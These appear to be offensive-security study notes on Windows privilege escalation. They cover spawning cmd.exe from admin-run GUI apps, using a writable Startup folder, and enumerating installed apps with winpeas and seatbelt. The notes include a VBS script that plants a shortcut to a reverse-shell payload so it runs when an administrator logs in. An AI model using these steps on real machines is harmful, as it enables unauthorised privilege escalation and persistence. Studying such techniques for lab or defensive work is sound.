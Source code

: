 

## Insecure GUI APPs  (IF RDP ENABLED)

try gui apps running as admin and then type following to confirm

> tasklist /V | findstr prrogram.exe

If its running as admin then we can usually find way to execute cmd.exe from file or open file function  file://c:/windows/system32/cmd.exe

## Startup Apps

Some Apps are placed in C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp directroy which windows loads when it starts

- Remember that shortcuts of file are placed in startup direcory instead of the file itself

1. Check permissions using accesschk.exe

>accesschk.exe  /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"



so if we have Write access then we can create a malicious files and place its shortcut here

1. Create a vbs script as follows (reverse.exe is our malicious file and we name the slinkfile as reverse.lnk)

Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save

**CreateShortcut is name of our vbs file**

2. Now type cscript CreateShortcut.vbs

3. The shortcut has been created and now we only need the administrator user to login to the machine so our apyload gets  executed


## Installed apps

.\winpeas.exe quiet procesinfo (or processinfo)


we can search for these apps on exploitdb and have priv esc using these installed applications


we can also use seatbelt.exe tool to find such apps

> .\seatbelt.exe NonstandardProcesses


## Hot Potato

This vulneribility is fixed in latest windows 10 version
